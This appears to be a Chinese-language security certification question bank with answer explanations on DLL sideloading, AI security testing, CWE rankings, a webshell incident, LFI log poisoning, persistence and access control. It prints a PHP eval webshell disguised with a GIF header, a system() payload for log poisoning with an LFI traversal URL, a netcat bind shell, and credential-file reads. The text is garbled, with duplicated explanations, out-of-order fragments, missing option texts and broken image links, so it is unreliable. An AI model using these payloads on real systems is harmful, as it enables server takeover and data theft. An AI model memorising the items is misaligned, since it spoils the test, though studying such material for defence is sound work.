(D) 僅將惡意 DLL 放在
考慮到題目給定的條件（可寫入 C:\Temp）和標準的 DLL 側載利用方式，選項 (B) 利用可寫目錄結合修改 PATH 環境變數是最有可能成功驗證側載漏洞的行為。 *註：修改環境變數 PATH 通常需要特定權限或僅對當前進程/用戶生效。*
C:\Windows\System32\)
3. 環境變數 PATH 指定的路徑
攻擊者想讓惡意的 Malware_ExampleLib.dll (應命名為 ExampleLib.dll 以被加載) 被 ExampleApp.exe 加載。
(A) 將惡意 DLL 放在系統目錄，搜尋順序在應用程式目錄之後。如果應用程式目錄有合法的 DLL，惡意 DLL 不會被加載。如果應用程式目錄沒有，系統目錄的會被加載，但這通常需要較高權限才能寫入，且不一定是最優先的側載路徑。(B) 將惡意 DLL 放在可寫入的
C:\Temp\，然後修改 PATH 環境變數，將 C:\Temp\ 加入到搜尋路徑中（且可能使其優先級高於其他路徑或系統目錄）。這樣當應用程式找不到前序路徑的 DLL 時，就會根據 PATH 搜尋到並加載 C:\Temp\ 中的惡意 DLL。這是利用 PATH 搜尋順序的典型側載方法。(C) 將惡意 DLL 放在應用程式目錄 (假設是
C:\Program Files\ExampleApp\)，如果該目錄可寫，則會直接覆蓋或優先加載惡意 DLL（因為搜尋順序 1）。但這更像是 DLL 劫持 (DLL Hijacking) 中的直接替換，且 Program Files 目錄通常不可隨意寫入。(D) 僅將惡意 DLL 放在
C:\Temp\，而不修改 PATH 或利用其他優先加載機制，應用程式不太可能找到並加載它，除非 PATH 原本就包含 C:\Temp 且優先級合適，或者前面兩個路徑都沒有找到 DLL。考慮到題目給定的條件（可寫入 C:\Temp）和標準的 DLL 側載利用方式，選項 (B) 利用可寫目錄結合修改 PATH 環境變數是最有可能成功驗證側載漏洞的行為。 *註：修改環境變數 PATH 通常需要特定權限或僅對當前進程/用戶生效。*
#31
2.2 滲透測試/源碼測試/資安健檢
企業導入AI提升工作流程或修訂除錯, 在各大知名企業都是顯學, 而 AI 安全也因應而生。企業進行 AI 模型的安全性檢測時, 為識別和修復可能的 AI 安全漏洞, 下列何種措施較為適切?
答案解析
AI 模型的安全性檢測需要考慮其獨特的攻擊面和風險。
(A) 數據完整性檢查很重要（防止數據中毒），但模型行為分析（如對抗性攻擊測試、模型竊取測試、偏見檢查）同樣關鍵。只檢查數據是不夠的。
(B) AI 系統通常透過 API 提供服務。測試 API 的身份驗證、授權機制，防止未授權訪問或功能濫用，是 AI 安全檢測的重要環節。這是一個適切的措施。
(C) 滲透測試需要擴展到 AI 模型本身，評估其特定的風險，如模型規避、數據推斷、對抗性攻擊等，不能僅關注傳統基礎設施漏洞。
(D) 靜態分析 (SAST) 有其局限性。測試實際的攻擊途徑，例如進行對抗性測試 (Adversarial Testing) 或模糊測試 (Fuzzing)，對於發現模型在實際應用中的漏洞至關重要。
因此，較為適切的措施是 (B)。
(A) 數據完整性檢查很重要（防止數據中毒），但模型行為分析（如對抗性攻擊測試、模型竊取測試、偏見檢查）同樣關鍵。只檢查數據是不夠的。
(B) AI 系統通常透過 API 提供服務。測試 API 的身份驗證、授權機制，防止未授權訪問或功能濫用，是 AI 安全檢測的重要環節。這是一個適切的措施。
(C) 滲透測試需要擴展到 AI 模型本身，評估其特定的風險，如模型規避、數據推斷、對抗性攻擊等，不能僅關注傳統基礎設施漏洞。
(D) 靜態分析 (SAST) 有其局限性。測試實際的攻擊途徑，例如進行對抗性測試 (Adversarial Testing) 或模糊測試 (Fuzzing)，對於發現模型在實際應用中的漏洞至關重要。
因此，較為適切的措施是 (B)。
#32
1.1 弱點/威脅/攻擊手法
漏洞是指因開發過程中不慎製造而導致安全性風險的弱點, 依照 2024 SANS / CWE TOP 25 所指出的前 25 最危險的程式設計錯誤, 下列那些是排名前五的項目? (複選)
答案解析
查詢 CWE Top 25 列表（通常每年更新，此處參考近年趨勢，但請以官方最新發布為準）。近年來記憶體安全相關的漏洞（如 Out-of-bounds Write/Read, Use After Free）以及注入類型的漏洞通常排名靠前。Web 相關的漏洞如 XSS, CSRF 也常在列。
根據 2023 年 CWE Top 25 （2024 年的列表可能尚未廣泛發布或穩定）：
- #1: CWE-787: Out-of-bounds Write (D)
- #2: CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')
- #3: CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- #4: CWE-416: Use After Free (C)
- #5: CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
- ...
- #11: CWE-125: Out-of-bounds Read (B)
- ...
- #25: CWE-352: Cross-Site Request Forgery (CSRF) (A)
#33
1.1 弱點/威脅/攻擊手法
【題組4】情境如附圖所示(附圖為文字描述)。你登入那台被入侵的伺服器之後, 在網頁目錄中發現一個沒看過的檔案 index2.php, 檔案內容如附圖 1 所示。請問下列何項描述「錯誤」? (附圖摘要: 你是藍隊防禦專家，EDR告警顯示某伺服器被入侵，你開始調查。)
附圖 1 (index2.php 內容):
附圖 1 (index2.php 內容):
<?php @eval($_REQUEST["input"]); exit;?>(附加 GIF 檔頭:
GIF89a)

答案解析
分析檔案內容和檔頭：
(C) 攻擊者可能將惡意 PHP 代碼隱藏在圖片檔頭或其他看似合法的檔案中，以繞過上傳檢查。如果這個檔案被伺服器當作 PHP 腳本執行（例如，透過 LFI 或設定錯誤），內嵌的 PHP 代碼就會造成威脅。描述合理。
(D)
(B) 雖然檔案開頭有 GIF89a 檔頭，但主要內容是 PHP 代碼。作業系統的圖片檢視器通常無法正確解析和顯示這種混合檔案，或者只會顯示損壞的圖片，不太可能顯示文字「input」。「input」是 PHP 代碼中用於接收攻擊者指令的參數名，不是圖片內容。描述錯誤。
因此，錯誤的描述是 (B)。
GIF89a: 這是 GIF 圖片檔案的標準文件頭 (Magic Number)，用來標識文件類型。<?php @eval($_REQUEST["input"]); exit;?>: 這是一段 PHP 程式碼，它會接收來自 HTTP 請求（GET 或 POST）中名為 "input" 的參數值，並使用eval()函數將其作為 PHP 代碼執行。@符號用於抑制錯誤訊息，exit;用於執行後終止腳本。這是一個典型的一句話網頁後門 (Web Shell)。
(C) 攻擊者可能將惡意 PHP 代碼隱藏在圖片檔頭或其他看似合法的檔案中，以繞過上傳檢查。如果這個檔案被伺服器當作 PHP 腳本執行（例如，透過 LFI 或設定錯誤），內嵌的 PHP 代碼就會造成威脅。描述合理。
(D)
eval($_REQUEST["input"]) 是一種最簡單形式的網頁後門，允許攻擊者透過傳遞 "input" 參數來執行任意 PHP 代碼，從而控制伺服器。正確。(B) 雖然檔案開頭有 GIF89a 檔頭，但主要內容是 PHP 代碼。作業系統的圖片檢視器通常無法正確解析和顯示這種混合檔案，或者只會顯示損壞的圖片，不太可能顯示文字「input」。「input」是 PHP 代碼中用於接收攻擊者指令的參數名，不是圖片內容。描述錯誤。
因此，錯誤的描述是 (B)。
#34
2.2 滲透測試/源碼測試/資安健檢
【題組4】情境如附圖所示。承上題, 你經過調查之後, 在 log 中發現好幾個可疑的內容, 請問下列哪一個 log 的推論最有可能是「錯誤」的?
答案解析
這些 Log 記錄了攻擊者利用上一題的 index2.php 後門（
(A)
(B)
(C)
(D)
因此，最可能是錯誤的推論是 (B)。
eval($_REQUEST["input"])）執行的操作。(A)
phpinfo(); 是 PHP 的內建函數，會顯示詳細的 PHP 配置和環境信息，攻擊者常用它來收集目標系統資訊。推論正確。(B)
cat /etc/passwd 用於顯示 Linux 系統的用戶帳號列表。這個文件通常不包含明文密碼。密碼的雜湊值通常儲存在 /etc/shadow 文件中（且需要 root 權限才能讀取）。因此，推論攻擊者想知道「明文密碼」是錯誤的。(C)
cat /etc/sudoers 用於查看哪些用戶或組被授權可以使用 sudo 命令提升到 root 權限。這個文件通常權限設置嚴格，非 root 用戶可能無法讀取。推論正確。(D)
cat /proc/self/environ 用於查看當前進程的環境變數，攻擊者可能想從中尋找敏感資訊（如 API 金鑰、資料庫密碼等）。推論正確。因此，最可能是錯誤的推論是 (B)。
#35
1.2 防護與應變實務
【題組4】情境如附圖所示。承上題, 當你調查完畢之後, 你判斷這個網頁系統中有一個任意檔案上傳漏洞, 因此迅速把弱點資訊回報給資訊部門, 並且提供修補建議請他們修補漏洞。請問下列何項建議對於修補這個資安漏洞最「不」適切?
答案解析
修補任意檔案上傳漏洞需要採取多層次防禦措施。
(A) 後端驗證：限制允許上傳的檔案類型（基於副檔名、MIME type、文件頭等多重檢查），並將檔案儲存到非網頁根目錄且不可直接執行的指定目錄中。這是標準的修補方法。
(B) 圖片處理：對上傳的圖片進行重新處理（如轉檔、壓縮、移除 EXIF），可以破壞其中可能隱藏的惡意代碼。這是一種有效的加固措施。
(C) 僅前端限制：如 Q3 所述，完全依賴前端（網頁 Javascript）進行安全限制是不可靠的，攻擊者可以輕易繞過。限制
(D) 權限設置：將存放上傳檔案的目錄設置為不可執行，可以防止攻擊者上傳的 Web Shell 或其他可執行檔案被伺服器直接執行。這是重要的安全配置。
因此，最不適切的建議是 (C)。
(A) 後端驗證：限制允許上傳的檔案類型（基於副檔名、MIME type、文件頭等多重檢查），並將檔案儲存到非網頁根目錄且不可直接執行的指定目錄中。這是標準的修補方法。
(B) 圖片處理：對上傳的圖片進行重新處理（如轉檔、壓縮、移除 EXIF），可以破壞其中可能隱藏的惡意代碼。這是一種有效的加固措施。
(C) 僅前端限制：如 Q3 所述，完全依賴前端（網頁 Javascript）進行安全限制是不可靠的，攻擊者可以輕易繞過。限制
.gif 也無法阻止攻擊者上傳其他類型的檔案或偽裝檔頭。安全驗證必須在後端（伺服器端）執行。這是最不適切的建議。(D) 權限設置：將存放上傳檔案的目錄設置為不可執行，可以防止攻擊者上傳的 Web Shell 或其他可執行檔案被伺服器直接執行。這是重要的安全配置。
因此，最不適切的建議是 (C)。
#36
1.1 弱點/威脅/攻擊手法
【題組4】情境如附圖所示。承上題, 你把該檔案移除之後, 你發現系統中仍然有人在執行攻擊指令, 你推測可能是紅隊人員在取得系統控制權之後, 有執行一連串維持權限 (Persistence) 的動作。請問以下哪些是紅隊人員用來維持權限的技巧? (複選)
答案解析
維持權限 (Persistence) 是指攻擊者在成功入侵系統後，採取措施確保即使在系統重啟或用戶登出後仍能持續訪問或控制該系統。
(A)
(B)
(C)
(D) Crontab 是 Linux 中用於設定週期性任務的工具。將反向連線指令設定為定時任務（如每小時執行），可以確保持續地嘗試建立連線，也是一種常用的持久化方法。正確。
因此，維持權限的技巧是 (C) 和 (D)。
(A)
nc 127.0.0.1 22 指令是嘗試連接本地的 22 端口（通常是 SSH 服務），這是一個連接命令，不是建立後門的方法。建立後門通常涉及監聽端口（如 nc -l -p [port] -e /bin/bash）。錯誤。(B)
~/.ssh/known_hosts 文件用於記錄用戶曾經連接過的主機的公鑰，以防止中間人攻擊，並不包含允許他人登入的金鑰。允許無密碼登入通常是將攻擊者的公鑰添加到目標用戶的 `~/.ssh/authorized_keys` 文件中。錯誤。(C)
~/.bashrc 是 Bash shell 在每次啟動交互式 shell 時會執行的腳本。將反向連線（或其他後門）指令加入此文件，可以實現用戶登入時自動觸發後門，是一種常見的 Linux 持久化技巧。正確。(D) Crontab 是 Linux 中用於設定週期性任務的工具。將反向連線指令設定為定時任務（如每小時執行），可以確保持續地嘗試建立連線，也是一種常用的持久化方法。正確。
因此，維持權限的技巧是 (C) 和 (D)。
#37
1.2 防護與應變實務
【題組5】情境如附圖所示(文字描述)。測試人員在登入畫面發現登入畫面上會針對登入錯誤提供了詳細的訊息, 如: 密碼錯誤, 帳號不存在, 在嘗試以 Hydra 進行帳密進行暴力破解時, 發現都會出現的是登入錯誤的訊息, 經過檢查如附圖一所示(HTTP POST request), 此種登入雖然過度的揭露的訊息, 它但每次登入時, 都會更新附圖一中的值, 這種防護方法可以有效的避免那一種攻擊? (附圖一顯示 POST 請求包含 csrf 和 username/password 參數)


答案解析
題目描述了幾個現象：
1. 登入錯誤訊息過於詳細（「密碼錯誤」vs「帳號不存在」），這本身是一個安全弱點，可能被用於帳號枚舉。
2. 暴力破解時都只得到「登入錯誤」（這似乎與第一點矛盾，但我們先關注下一點）。
3. 每次登入時，附圖一中的值會更新。附圖一顯示了一個 HTTP POST 請求，其中包含參數
這種一次性或基於會話的權杖可以有效防止 CSRF 攻擊。因為攻擊者無法預測或獲取用戶當前有效的 CSRF 權杖，從而無法偽造一個能通過驗證的請求，即使他們能誘騙用戶點擊惡意連結。
(A), (C), (D) 這些攻擊類型與 Anti-CSRF Token 機制的主要防禦目標無關。雖然登入功能本身可能存在這些漏洞，但題目中描述的「每次更新值」的防護方法最直接對應的是防禦 CSRF。
因此，這種防護方法可以有效避免 (B) CSRF 攻擊。
csrf=... 以及 username 和 password。
關鍵在於「每次登入時，附圖一中的值會更新」，結合圖中出現的 csrf=... 參數，這強烈暗示系統實現了反跨站請求偽造 (Anti-Cross-Site Request Forgery, Anti-CSRF) 權杖 (Token) 機制。這種機制要求每次提交表單（如登錄）時，都必須包含一個伺服器先前生成的、與當前會話綁定的唯一權杖。伺服器在處理請求前會驗證此權杖的有效性。這種一次性或基於會話的權杖可以有效防止 CSRF 攻擊。因為攻擊者無法預測或獲取用戶當前有效的 CSRF 權杖，從而無法偽造一個能通過驗證的請求，即使他們能誘騙用戶點擊惡意連結。
(A), (C), (D) 這些攻擊類型與 Anti-CSRF Token 機制的主要防禦目標無關。雖然登入功能本身可能存在這些漏洞，但題目中描述的「每次更新值」的防護方法最直接對應的是防禦 CSRF。
因此，這種防護方法可以有效避免 (B) CSRF 攻擊。
#38
2.2 滲透測試/源碼測試/資安健檢
【題組5】情境如附圖所示。檢測人員在利用 SQL注入 (SQL Injection) 成功後, 發現在
/var/logs/AUTH.log 中, 出現了一個名為 '<?php system($_GET['c']); ?>' 的帳號嘗試登入該主機, 如果這網網站存在 LFI (Local File Inclusion) 弱點時, 可以從 Web access log 中的 uri query string 找到什麼特徵?答案解析
根據 Q5 和 Q33 的分析，攻擊者先透過某種方式（可能是失敗的 SSH 登錄）將 PHP 後門代碼
接下來，攻擊者利用網站的 LFI 漏洞來包含並執行這個被污染的日誌文件。例如，請求的 URL 可能類似：
當伺服器執行
Web access log 會記錄下這個請求的 URI Query String 部分，即
我們需要找到哪個選項代表了攻擊者可能透過參數 'c' 傳遞的系統指令。
(A)
(B)
(C)
(D)
因此，最可能在 uri query string 的參數 'c' 中找到的特徵是 (C)。
<?php system($_GET['c']); ?> 注入到了 /var/log/auth.log 文件中。接下來，攻擊者利用網站的 LFI 漏洞來包含並執行這個被污染的日誌文件。例如，請求的 URL 可能類似：
http://example.com/vuln.php?file=../../../../var/log/auth.log&c=[COMMAND]當伺服器執行
vuln.php 並包含 auth.log 時，PHP 解釋器會執行日誌中的 system($_GET['c']) 代碼。此時，攻擊者透過 URL 中附加的參數 c 傳遞想要執行的系統指令。Web access log 會記錄下這個請求的 URI Query String 部分，即
file=../../../../var/log/auth.log&c=[COMMAND]。我們需要找到哪個選項代表了攻擊者可能透過參數 'c' 傳遞的系統指令。
(A)
'" or 1=1 - - 是典型的 SQL 注入語句。(B)
alert(document.cookie) 是典型的 XSS 攻擊 payload。(C)
whoami && ip addr && hostname 是一連串的 Linux 系統指令，用於查詢當前用戶、IP 地址和主機名。這符合透過 system() 函數執行系統指令的特徵。(D)
SLEEP(5) 是常用於測試時間盲注 SQL 注入的函數。因此，最可能在 uri query string 的參數 'c' 中找到的特徵是 (C)。
#39
1.1 弱點/威脅/攻擊手法
【題組5】情境如附圖所示。在以高、低權限交叉進行 URI 的比對時, 測試人員發現, 在高權限進行後台編輯文章時 URI 所帶的參數裡面發現多一個名為 pri 的參數 (如附圖二), 而低權限的使用者則沒有, 因此測試人員嘗試進行修改低權限使用者在該頁面中的 uri 參數, 加上了 pri 參數使其與管理員一致, 頁面上出現的是無權限存取, 測試人員仔細觀查後發現在該頁面存取時, 會送出 Post 的 Http 方法裡帶入了一個 sid 的參數, 當測試人員將其帶入到低權限的帳號中, 竟然可以成功的存取到管理者可瀏覽的頁面, 其功能也完整呈現, 這樣的測試證明了這個頁面存在下列那一個 OWASP Top 10 2021 的弱點? (附圖二 高權限 URI: `...?page=12&user=ci1&pri=YWRtaW4`, 低權限 URI: `...?page=12`)

答案解析
問題描述的核心是：低權限用戶透過修改請求參數（在 POST 請求中加入高權限用戶才有的 sid 參數，可能還需要配合修改 URI 中的 pri 參數），成功訪問了只有高權限用戶才能訪問的頁面和功能。
這表示系統的後端授權機制存在缺陷，未能正確驗證發起請求的用戶是否真的擁有執行該操作或訪問該頁面的權限，僅僅依賴了前端傳遞的參數（如 sid 或 pri）。攻擊者可以透過竄改這些參數來越權訪問。
這完全符合 OWASP Top 10 2021 中的 A01:Broken Access Control (失效的存取控制) 的定義。該類別涵蓋了所有與權限控制不當相關的漏洞，例如水平越權（訪問同級用戶數據）、垂直越權（低權限訪問高權限功能）等。
(B) 安全設定錯誤通常指伺服器、框架、資料庫等配置不當，此處問題在於應用程式邏輯。
(C) 軟體與資料完整性故障主要涉及軟體更新、關鍵數據的完整性保護不足，與此越權場景不同。
(D) SSRF 是伺服器端請求偽造，指攻擊者能讓伺服器代表其向內部或外部發起非預期的請求，與此處的用戶權限控制問題不同。
因此，最符合的弱點是 (A)。
這表示系統的後端授權機制存在缺陷，未能正確驗證發起請求的用戶是否真的擁有執行該操作或訪問該頁面的權限，僅僅依賴了前端傳遞的參數（如 sid 或 pri）。攻擊者可以透過竄改這些參數來越權訪問。
這完全符合 OWASP Top 10 2021 中的 A01:Broken Access Control (失效的存取控制) 的定義。該類別涵蓋了所有與權限控制不當相關的漏洞，例如水平越權（訪問同級用戶數據）、垂直越權（低權限訪問高權限功能）等。
(B) 安全設定錯誤通常指伺服器、框架、資料庫等配置不當，此處問題在於應用程式邏輯。
(C) 軟體與資料完整性故障主要涉及軟體更新、關鍵數據的完整性保護不足，與此越權場景不同。
(D) SSRF 是伺服器端請求偽造，指攻擊者能讓伺服器代表其向內部或外部發起非預期的請求，與此處的用戶權限控制問題不同。
因此，最符合的弱點是 (A)。
#40
1.2 防護與應變實務
【題組5】情境如附圖所示。在上述的情境當中, 滲透測試人員發現可以透過修改 HTTP POST 參數得到可網站較高的管理權限, 而在測試弱點影響主機安全的深度時, 在測試過程中, 利用 LFI (Local File Inclusion) 的弱點讀取到網站應用程式的組態檔, 進而發現了該主機的 mysql 並未針對來源 IP 進行限縮, 你身為滲透測試人員在測試報告中下列那一些建議事項, 對受測單位而言, 在不損及服務可用性的前提下, 下列哪些答案符合以最少的金錢、管理、技術對弱點進行有效的管理? (複選) (附圖三 MySQL 設定檔內容: DB_NAME, DB_USER, DB_PASSWORD, DB_HOST)

答案解析
針對發現的兩個主要問題：1) 透過修改 POST 參數可提升權限（失效的存取控制），2) 利用 LFI 讀取組態檔發現 MySQL 未限制來源 IP。報告應提出最經濟有效的管理建議。
(A) 限縮網站訪問來源 IP：如果服務對象主要是我國用戶，限制僅允許我國 IP 訪問網站，可以在網路層減少來自國外攻擊者的攻擊面。這通常可以透過防火牆或 CDN 設定完成，成本相對較低，是一種有效的初步防禦。
(B) 限制 MySQL 來源 IP：直接解決了測試發現的 MySQL 未限縮 IP 的問題。應將 MySQL 設定為僅允許應用程式伺服器的 IP 連接。這是一個基本的、必要的安全配置，通常只需要修改資料庫設定，成本最低且效果直接。
(C) 導入 MFA：MFA 主要用於強化身份驗證，對於防止帳號密碼被盜用有效，但對於此處發現的「失效的存取控制」（能透過修改參數提權）和 LFI 漏洞沒有直接幫助，且導入 MFA 通常需要較高的技術和管理成本。
(D) 導入 WAF：WAF 可以防禦 LFI 和某些參數竄改嘗試，是有效的技術控制，但相比直接修復後端權限邏輯和配置資料庫 IP 限制，導入和維護 WAF 的成本較高。
考慮到「最少的金錢、管理、技術」，最直接且成本效益最高的建議是：
1. 針對提權問題：修復後端應用程式的權限檢查邏輯（未在選項中，但應是首要）。 2. 針對 MySQL IP 未限縮：執行選項 (B)。 3. 針對整體網站防護（減少攻擊面）：執行選項 (A)。 因此，(A) 和 (B) 是符合低成本、有效管理原則的建議。
(A) 限縮網站訪問來源 IP：如果服務對象主要是我國用戶，限制僅允許我國 IP 訪問網站，可以在網路層減少來自國外攻擊者的攻擊面。這通常可以透過防火牆或 CDN 設定完成，成本相對較低，是一種有效的初步防禦。
(B) 限制 MySQL 來源 IP：直接解決了測試發現的 MySQL 未限縮 IP 的問題。應將 MySQL 設定為僅允許應用程式伺服器的 IP 連接。這是一個基本的、必要的安全配置，通常只需要修改資料庫設定，成本最低且效果直接。
(C) 導入 MFA：MFA 主要用於強化身份驗證，對於防止帳號密碼被盜用有效，但對於此處發現的「失效的存取控制」（能透過修改參數提權）和 LFI 漏洞沒有直接幫助，且導入 MFA 通常需要較高的技術和管理成本。
(D) 導入 WAF：WAF 可以防禦 LFI 和某些參數竄改嘗試，是有效的技術控制，但相比直接修復後端權限邏輯和配置資料庫 IP 限制，導入和維護 WAF 的成本較高。
考慮到「最少的金錢、管理、技術」，最直接且成本效益最高的建議是：
1. 針對提權問題：修復後端應用程式的權限檢查邏輯（未在選項中，但應是首要）。 2. 針對 MySQL IP 未限縮：執行選項 (B)。 3. 針對整體網站防護（減少攻擊面）：執行選項 (A)。 因此，(A) 和 (B) 是符合低成本、有效管理原則的建議。